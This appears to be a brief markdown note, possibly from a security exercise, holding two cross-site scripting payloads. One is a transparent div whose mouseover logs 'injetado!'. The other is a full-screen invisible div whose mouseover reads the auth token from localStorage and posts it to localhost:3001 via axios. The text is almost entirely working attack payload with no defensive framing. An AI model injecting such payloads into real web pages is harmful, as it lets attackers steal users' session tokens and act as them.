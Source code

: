 
# MS
`<div onmouseover="console.log('injetado!')" style="width:50px; height: 100px; color:transparent"> </div>`

# Request
`<div onmouseover="axios.post('http://localhost:3001/', {}, {headers:{Authorization:localStorage['token']} }).then((result)=>{})" style="width:100vw; height: 100vh; color:transparent"></div>`
